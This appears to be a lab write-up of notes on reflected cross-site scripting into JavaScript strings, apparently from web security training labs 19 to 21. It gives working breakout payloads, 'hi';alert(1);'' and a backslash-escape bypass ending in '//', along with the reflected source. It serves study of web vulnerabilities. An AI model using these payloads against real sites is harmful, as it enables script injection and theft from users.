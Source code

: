 
## Lab - 19: Reflected XSS into a JavaScript string with angle brackets HTML encoded (A)

- This lab contains a reflected cross-site scripting vulnerability in the search query tracking functionality where angle brackets are encoded. The reflection occurs inside a JavaScript string. To solve this lab, perform a cross-site scripting attack that breaks out of the JavaScript string and calls the alert function.

- in search box, type `qwerasdf` and see the source of the response

```html
<script>
  var searchTerms = 'qwerasdf';
  document.write(...);
</script>
```

- just circumvent the `'` by adding `'`
- `hi';alert(1);'`

- response looks like

```javascript
var searchTerms = 'hi';alert(1);'';
document.write(...)
```

---

## Lab - 20: Reflected XSS into a JavaScript string with angle brackets and double quotes HTML-encoded and single quotes escaped (P)

- This lab contains a reflected cross-site scripting vulnerability in the search query tracking functionality where angle brackets and double are HTML encoded and single quotes are escaped. To solve this lab, perform a cross-site scripting attack that breaks out of the JavaScript string and calls the alert function.

- in search box, type `qwerasdf` and see the source of the response

```html
<script>
  var searchTerms = 'qwerasdf';
  document.write(...);
</script>
```

- try with `';alert(1);'` to bypass the `'` but it was escaped by `/`
- response likes this `var searchTerms = '\';alert(1);'`
- try to bypass the `\` by adding `\`
- `\';alert(1)//` and comment the following

---

## Lab - 21: Reflected XSS in a JavaScript URL with some characters blocked (E)
